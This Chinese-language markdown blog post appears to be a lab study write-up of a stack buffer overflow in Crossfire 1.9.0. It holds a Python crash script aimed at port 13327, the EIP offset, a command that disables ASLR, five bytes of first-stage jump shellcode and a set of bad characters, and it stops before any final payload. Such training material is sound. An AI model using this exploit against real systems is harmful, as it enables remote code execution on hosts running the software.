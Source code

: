 ```yaml
---
title: 缓冲区溢出案例（三）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[kali linux之edb--CrossFire缓冲区溢出](https://blog.csdn.net/zixuanfy/article/details/52578072)

Crossfire 1.9.0在接受socket连接的时候，有着bof漏洞。

## 搭建靶机

```
mkdir /usr/games    
#必须在该目录下运行crossfire，否则程序会报错
#Cannot open bmaps file /usr/games/crossfire/share/crossfire/bmaps: No such file or directory

cd /usr/games;wget www.offensive-security.com/crossfire.tar.gz;tar zxpf crossfire.tar.gz

cd crossfire/bin

gdb /usr/games/crossfire/bin/crossfire
run

---
当程序提示溢出错误的时候，可以运行run，输入y，重新调试程序

当需要重新运行的时候，可以结束进程重新运行。
pgrep crossfire | xargs kill -s 9
---
关闭ASLR
echo 0 > /proc/sys/kernel/randomize_va_space
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/1.PNG)

`Waiting for connections...`

面板最后出现了这样的语句，代表程序正常运行。

## （exp.py demo）让程序报错
开始调试bof漏洞
```
#!/usr/bin/python
import socket
host = "目标IP"
crash="\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/2.PNG)
程序报错，段错误，返回地址被`0x41`填充

## 定位缓冲区大小
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379`

修改python脚本，crash="pattern_create生成的字符串"

运行后得到一个地址，`0x46367046`
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/3.PNG)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046

[*] Exact match at offset 4368
```
缓冲区长度为4379，EIP地址为为4368后的4字节。

## 测试是否找到EIP地址
修改python脚本`crash="\x41" * 4368 + "B"*4 + "C"*7`

确保报错的是0x42424242，表示EIP地址被字符B所覆盖。确认找到了EIP指令寄存器的位置。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/4.PNG)

## 找出shellcode占用的空间
edb 

运行linux平台，图形化界面的调试器。图形化界面方便同时观察所有寄存器的状态。

点击图中的run按钮，运行crossfire程序，然后运行exp.py让程序报错。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/6.PNG)

在崩溃的时候，我们再次检查任何可能帮助我们找到buffer的寄存器。

选中EAX寄存器，右键 follow in dump，即可跳转到EAX所指地址。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/7.PNG)

在这个案例中，EAX寄存器看起来指向buffer的起始位置，包含了字符串“setup sound ”

但是EAX寄存器没有直接跳转到缓冲区（缓冲区的起始地址以A字符串开头），这可能会影响执行exp，导致失败。

在这种情况下，跳转到EAX可能实际上对我们有用。 但是，这不是一个很好的解决方案。 咱们试试更难的方案。

## 提高exp可用性
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/8.PNG)

看起来ESP寄存器指向了缓冲区的C地址，在崩溃的时候，没有给我们足够的空间放置shellcode。不像之前的slmail bof案例, 在程序崩溃之后，只写入了“cccccccc”这么几个字符。这暗示着我们，只能把shellcode放置在大小为4368的缓冲区之中。

然而，在崩溃时，我们可以使用ESP寄存器指向的字节，来创建第一个阶段的shellcode。它可以使得ESP寄存器与缓冲区的A字符起始位置对齐，跳过字符串“setup sound"

为了达到这个目的，我们第一阶段的shellcode将会需要添加12比特给EAX寄存器，然后跳转到EAX。让我们看看这个shellcode demo是怎样的。

```
nasm_shell 汇编指令转十六进制

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
add eax,12
jmp eax
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-28-12/5.PNG)

然后写成16进制即可。幸运的是，这两个指令只用了5字节的内存——`\x83\xc0\x0c\xff\xe0`

## 发现坏字符
和[上一篇](https://whale3070.github.io/buffer%2520overflow/2020/01/15/03-x/)类似，发送[exp.py](https://raw.githubusercontent.com/Whale3070/ctf-coding/master/badchar-bof.py)

注意crash中exp的写法，`crash= badchars + "\x41" * 4368`

第一段是坏字符，目的是检查是否有badchar截断后续的字符。
第二段目的是覆盖返回地址，使得程序报错，方便调试。

点击图中的EBP寄存器，extended base pointer，它总是指向栈底。右键follow in dump，来跳转到EBP指向的地址。

发现有规律的字符`01 02 03 04 05 06 07 08`，失去了`09`，说明它是坏字符。

删除exp.py中 `\x09`，重复以上操作。发现坏字符`\x0a`

删除exp.py中 `\x0a`，重复以上操作。发现坏字符`\x20`

`\x00\x09\x0a\x20`   是坏字符

badchar坏字符跟操作系统、程序有关，不同的系统运行坏字符可能并不相同。

